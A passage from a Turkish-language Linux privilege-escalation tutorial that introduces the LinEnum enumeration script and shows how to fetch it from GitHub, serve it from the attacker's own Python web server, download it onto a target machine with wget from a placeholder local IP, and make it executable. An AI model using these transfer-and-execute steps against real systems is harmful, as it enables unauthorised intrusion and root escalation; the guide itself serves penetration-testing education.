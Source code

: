 ### Linux Yetki Yükseltme  
#### Tanımlama  
##### LinEnum Nedir?

LinEnum, yetki yükseltmeyle ilgili yaygın komutları çalıştıran basit bir bash scriptidir. Zaman kazandırır ve kök (root) yetkisi elde etmeye yönelik daha fazla çaba harcamanıza olanak tanır. LinEnum’un hangi komutları çalıştırdığını anlamak önemlidir. Çünkü LinEnum veya benzer scriptleri kullanamadığınız bir durumda, yetki yükseltme açıklarını manuel olarak keşfetme yeteneğine sahip olmanız gerekecek. Bu rehberde, LinEnum’un ne gösterdiği ve aynı işlemleri elle nasıl yapabileceğiniz açıklanacaktır.

---

### LinEnum’u Nereden Alabilirim?

LinEnum’un yerel bir kopyasını şu adresten indirebilirsiniz:  
**GitHub:**  
[LinEnum - RebootUser](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

Bu scripti hatırlayacağınız bir yerde saklamaya değer, çünkü LinEnum paha biçilmez bir araçtır.

---

### LinEnum Hedef Makineye Nasıl Taşınır?

LinEnum’u hedef makineye taşımak için iki yöntem vardır:

1. **Python Web Sunucusu Kullanımı:**  
   LinEnum kopyasını sakladığınız dizine gidin ve aşağıdaki komutla bir Python web sunucusu başlatın:  
   ```bash
   python3 -m http.server 8000
   ```
   Daha sonra hedef makineden `wget` komutuyla ve yerel IP adresinizle dosyayı alabilirsiniz:  
   ```bash
   wget http://<yerel_ip_adresi>:8000/LinEnum.sh
   ```
   Ardından dosyayı çalıştırılabilir yapmak için şu komutu kullanın:  
   ```bash
   chmod +x FILENAME.sh
   ```

2. **Manuel Yöntem:**  
   Eğer dosyayı taşıyamıyorsanız, yetkiniz varsa LinEnum’un ham kodlarını yerel makineden kopyalayabilirsiniz. Ardından hedef makinede Vi veya Nano gibi bir editör kullanarak yeni bir dosyaya yapıştırabilirsiniz.  
   - Dosyayı `.sh` uzantısıyla kaydedin.  
   - Dosyayı çalıştırılabilir yapmak için şu komutu kullanın:  
     ```bash
     chmod +x FILENAME.sh
     ```
